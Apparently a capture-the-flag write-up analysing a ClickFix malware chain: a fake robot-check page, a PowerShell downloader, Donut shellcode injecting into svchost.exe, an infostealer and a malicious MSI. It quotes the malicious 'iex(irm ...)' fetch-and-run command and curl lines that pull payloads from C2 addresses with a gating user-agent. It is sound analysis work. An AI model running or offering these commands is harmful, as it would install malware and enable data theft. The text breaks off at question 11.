# Mr Roboto

## Scenario

Beep-bop, R U a robot ?

Note from author: *"I have been flagged by AV multiple times during the creation phase of this challenge, so be careful yourself"*

## Given artifact

Nothing initially — we're just given a link to a ClickFix-poisoned site.

## Solving process

The challenge is Sherlocks-like, but I'll check the link first:



Boom — typical ClickFix malware. A JavaScript function (like `navigator.clipboard.writeText(...)`) poisons our clipboard with a script, then tricks inexperienced users into pasting and running it in cmd.

Now that we know what we're dealing with, let's connect to the Docker instance for the questions.

### 1. What command did the compromised website tell you to run?

Open the clipboard — it's right there:



**Answer: `powershell -c iex(irm 152.42.186.220 -UseBasicParsing)`**

### 2. Where does the website load malicious payload from?

In this case, the payload in our clipboard isn't loaded by a simple inline function — it's pulled in from an external JS file. To catch it, fire up devtools (F12), switch to the Network tab, enable `Preserve log`, and reload the page:



This script is very long, but TL;DR it:

- injects the fake Cloudflare/robot overlay,
- localizes the prompt to the victim's browser language,
- writes the `powershell -c iex(irm 152.42.186.220 …)` command to the clipboard,
- tells the user to paste it into Win+R.

**Answer: `https://jsrepo.aduma.online/new.js`**

### 3. Name of the binary file that powershell loaded?

Get that payload safely using `curl`:

```bash
curl -o stage1.txt "http://152.42.186.220"
```

Then read its content:



As expected — this is just a downloader, and the binary file name is right at the beginning.

**Answer: `m_cpt1267382.bin`**

### 4. What process does this binary inject into?

Grab that file with `wget`. The `file` command just reports `data` (no recognizable header), but VirusTotal identifies it as [Donut malware](https://github.com/TheWover/donut):



> Donut is an open-source framework used to generate position-independent shellcode that enables the in-memory execution of VBScript, JScript, EXEs, DLLs, and .NET assemblies. While originally built by security researchers for penetration testing, it is frequently weaponized by advanced threat actors to bypass security controls and load secondary payloads like Remote Access Trojans (RATs), info-stealers, or ransomware.

We won't go deep into its internals here — it's complex. The short version: it supports in-memory execution, bypasses many AVs, and self-deletes the original shellcode once the real payload is executed.

There's a Python tool that takes raw Donut shellcode and dumps the decrypted instance + embedded module: `donut-decryptor` (installable via pip):

```bash
donut-decryptor stage2.bin
```

We get two files back: `inst_stage2.bin` (Donut config/metadata) and `mod_stage2.bin` (the actual unwrapped module). Let's decompile the module with Ghidra:



This is the orchestrator — it calls a function, passing the next-stage URL as a parameter. Let's follow the chain:



This is a downloader. It opens an HTTP connection with a weird hardcoded User-Agent (the name of a porn site...) — clearly used as a gate so the file isn't reachable from a normal browser — then connects to the destination on port 80 (`0x50`) as plain HTTP, no TLS.



I also found this function — exactly what we need for this question. It walks the process list, finds `svchost.exe`, and uses `IsWow64Process` to confirm it's 64-bit (not WOW64). The check matters because the shellcode is x64, so it can't be injected into a 32-bit host.

**Answer: `svchost.exe`**

### 5. Next stage C&C server?

Already found in the function above.

**Answer: `152.42.203.28`**

### 6. Little secret used to access the next stage payload?

This is the weird User-Agent we already found:

**Answer: `missav`**

### 7. Next stage type of malware?

Now we grab the next stage. Remember to set the user-agent — without it we get a 404:

```bash
curl -A 'missav' -o stage3.bin \
     http://152.42.203.28/9cca20c6df659f72/m_cpt_bld172638.bin
```

Donut again...:



Run `donut-decryptor` one more time. `mod_stage3.bin` is much more complex — about 10× the size of stage 2. Decompiling it in Ghidra yields a wall of functions, and skimming through them shows a lot of reconnaissance and information gathering:









Instead of going function-by-function, we can look at the imported modules to deduce its goals:

| Group | Imports | What it does |
| :--- | :--- | :--- |
| **Anti-debug** | `CheckRemoteDebuggerPresent`, `TLS callback` | Detects analysis |
| **Screen capture** | `GDI32.BitBlt`, `CreateCompatibleBitmap`, `gdiplus.GdipSaveImageToFile` | Takes screenshots |
| **System recon** | `EnumDisplayDevicesA`, `GetSystemMetrics`, `GetKeyboardLayout(List)`, `GetUserNameA` | Fingerprints victim (display, locale, user) |
| **Registry harvesting** | `RegOpenKeyExA`, `RegEnumKeyExA`, `RegQueryValueExA` | Browser data, installed software, autoruns |
| **File access** | `CreateFileA`, `CopyFileA`, `CreateDirectoryA`, `SHGetFolderPathA` | Walks `AppData`, `Roaming`, etc. for browser/wallet files |
| **Crypto** | `BCryptEncrypt`, `BCryptGenerateSymmetricKey`, `BCryptGenRandom` | Encrypts loot before exfil |
| **Net (channel A)** | `InternetOpenA`, `InternetOpenUrlA`, `InternetReadFile` | HTTP — config pull / heartbeat |
| **Net (channel B)** | `WSAStartup`, `socket`, `connect`, `send`, `recv` | Raw TCP — custom protocol for exfil |
| **Injection** | `CreateRemoteThread`, `CreateToolhelp32Snapshot` | (Already saw the `svchost.exe` targeting in stage 2 — this confirms stage 3 also does injection itself) |
| **Window enum** | `EnumWindows`, `GetWindowThreadProcessId`, `PostMessageA` | Likely looking for specific apps (wallets, IM clients) |

Plenty of evidence to conclude this is an **infostealer**.



I also spot the next-stage URL alongside the same weird user-agent as before — we'll need it again to dodge the 404.



This AES key is caught red-handed — likely used to encrypt data for exfiltration.

Oops, went too far — let's finish this question here.

**Answer: `infostealer`**

### 8. What is the final C&C server found in the second binary?

Already found in the functions above.

**Answer: `138.2.62.171`**

### 9. What is the encryption key used for the C&C communication channel?

Already found above.

**Answer: `lmao_ez_sysinfo_aes256_key_2026!!`**

Before closing this binary, one thing still bugs me...



### 10. Huh? The msi file ran something? Where is it?

First we need to grab the MSI file:

```bash
curl -A 'missav' -o install.msi 'http://138.2.62.171:443/install.msi'
```

> An MSI (Microsoft Software Installer) is the standard package format for installing software on Windows. From a file-format standpoint, an MSI is not an executable — it's a relational database (set of tables with foreign-key relationships) stored inside an OLE Compound File / Structured Storage container (the same container format as legacy .doc/.xls). The Windows Installer service (`msiexec.exe`) reads this database at install time and acts on the rows in a defined order.
>
> This dual nature — *data file* in appearance, *script of actions* in behavior — is exactly why threat actors love it: it executes code on the victim like an `.exe` does, but inspects like a benign data file in EDR and email gateways.
>
> An MSI contains two kinds of payload:
>
> | Kind | What it is | Examples in this sample |
> | :--- | :--- | :--- |
> | **Database tables** | Rows that describe install logic (~80 standard tables, prefixed `!` when extracted) | `!CustomAction`, `!Property`, `!InstallExecuteSequence`, `!Registry`, `!Binary` |
> | **Binary streams** | Embedded blobs referenced by table rows: DLLs, EXEs, icons, scripts, CAB archives | `Binary.PowerShellScriptLauncher.dll`, `Binary.aicustact.dll`, banner SVGs |
>
> The execution engine walks the `InstallExecuteSequence` table in numerical order, firing each listed action when its `Condition` evaluates true. Standard actions (`InstallFiles`, `WriteRegistryValues`, ...) are built into `msiexec`; everything else is a **CustomAction** — a row in the `CustomAction` table that points at a DLL function, EXE, script, or property-setter to execute.
>
> For triage, four tables answer 90% of "what does this thing do":
>
> - `Property` — key/value config (product code, version, publisher, secrets, custom flags). First place to glance for any obviously malicious values, though sophisticated samples keep it clean as cover.
> - `Binary` — the payload locker. Every embedded DLL/EXE/script gets a name here. Suspicious names (`*.ps1`, oddly-named DLLs, repeated copies) or unexpected sizes are red flags.
> - `CustomAction` — *the* most important table. Each row's `Type` integer encodes what the action does (run a DLL function, run an EXE, set a property, run a JScript/VBScript/PowerShell, etc.). Microsoft's documented type constants tell you exactly how to read the `Source` and `Target` columns. The `Target` field often holds the entire malicious command line or script body.
> - `InstallExecuteSequence` — when each action fires, and under what condition. This gives you the *timeline* of execution, which is critical for explaining the attack chain.
>
> Two more secondary but useful tables:
>
> - `Registry` — declarative registry writes. Direct visibility into persistence if the installer (rather than its payload) sets the Run key.
> - `File` / `Component` / `Directory` — where files get dropped on disk.
>
> Tooling reference:
>
> - `file` — confirm OLE compound storage.
> - `7z` — list and extract binary streams (cross-platform, no Windows needed).
> - `msitools` package (`msiinfo`, `msiextract`) — proper MSI database access on Linux/macOS.
> - `lessmsi` (Windows) — GUI/CLI MSI inspector, friendly for triage.
> - `Orca` (Microsoft, free) — official MSI table editor; the gold standard on Windows but heavy.

Quick fingerprint of *this* sample, before we dig in: `7z l install.msi` shows `Binary.PowerShellScriptLauncher.dll` and `Binary.aicustact.dll` embedded inside, and the `Property` table contains `AI_PACKAGING_TOOL = Advanced Installer 22.5`. So this MSI was built with **Advanced Installer**, a legitimate commercial installer-builder that ships those two helper DLLs by default. Threat actors abuse AIP because most of the rows look like generated boilerplate, making the malicious row easy to overlook.

Use these `msitools` commands to extract the tables:

```bash
msiinfo export install.msi CustomAction           > msi_extracted/CustomAction.idt
msiinfo export install.msi Property               > msi_extracted/Property.idt
msiinfo export install.msi InstallExecuteSequence > msi_extracted/InstallExecuteSequence.idt
msiinfo export install.msi Binary                 > msi_extracted/Binary.idt
```

Inside `CustomAction.idt`, the malicious row is `AI_DATA_SETTER` — its `Target` field is one long ugly line with multiple `key=value` pairs packed together using `\u0001` and `\u0002` as separators (which is why eyeballing it doesn't help). After unpacking, the `Script` value is the next-stage downloader — PowerShell that `iex`-es a `.php` file:



`AI_DATA_SETTER` runs right before `InstallFinalize` (sequence 6401), then `PowerShellScriptInline` (sequence 6402) reads that property and executes it via the embedded `PowerShellScriptLauncher.dll`. Both are gated by `NOT Installed`, so they only fire on first install — classic dropper behavior.

**Answer: `http://138.2.62.171:443/captcha.php`**

### 11. What is the MITRE ATT&CK technique ID for the persistence method used by this stage's malware?

Look at what `captcha.php` returns:

